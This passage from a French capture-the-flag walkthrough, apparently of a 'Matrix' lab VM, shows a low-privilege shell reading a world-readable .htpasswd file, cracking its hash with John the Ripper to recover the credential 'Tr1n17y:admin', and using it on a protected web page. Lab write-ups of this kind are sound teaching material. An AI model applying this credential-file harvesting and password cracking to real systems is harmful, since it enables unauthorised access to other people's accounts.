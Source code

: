 C'est l'occasion de jeter un oeil au répertoire ```/var/www``` et à son fichier ```.htpasswd```...

```console
$ id
uid=1001(testuser) gid=1001(testuser) groups=1001(testuser)

$ ls -al /var/www
total 48
drwxr-xr-x  4 root root  4096 Dec 14  2018 .
drwxr-xr-x 12 root root  4096 Dec  7  2018 ..
drwxr-xr-x  4 root root  4096 Dec 14  2018 4cc3ss
-rw-r--r--  1 root root 25052 Dec  8  2018 h1dd3n.jpg
-rw-r--r--  1 root root  3594 Dec 14  2018 index.php
drwxr-xr-x  2 root root  4096 Dec  8  2018 p4ss

$ ls -al /var/www/p4ss
total 12
drwxr-xr-x 2 root root 4096 Dec  8  2018 .
drwxr-xr-x 4 root root 4096 Dec 14  2018 ..
-rw-r--r-- 1 root root   46 Dec  8  2018 .htpasswd

$ cat /var/www/p4ss/.htpasswd
Tr1n17y:$apr1$7tu4e5pd$hwluCxFYqn/IHVFcQ2wER0
```

À toi de jouer, [__John The Ripper__](http://openwall.com/john/) !

```console
root@blinils:~# echo "Tr1n17y:\$apr1\$7tu4e5pd\$hwluCxFYqn/IHVFcQ2wER0" > .htpasswd
root@blinils:~# john .htpasswd
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
--snip--
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
admin            (Tr1n17y)
1g 0:00:00:00 DONE 2/3 (2019-06-16 16:06) 7.692g/s 29169p/s 29169c/s 29169C/s nina..buzz
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Le couple d'identifiants ```Tr1n17y:admin``` permet d'accéder à la page Web protégée (port 1337).

![Affichage de l'image 1337-access-Matrix2.png](images/1337-access-Matrix2.png)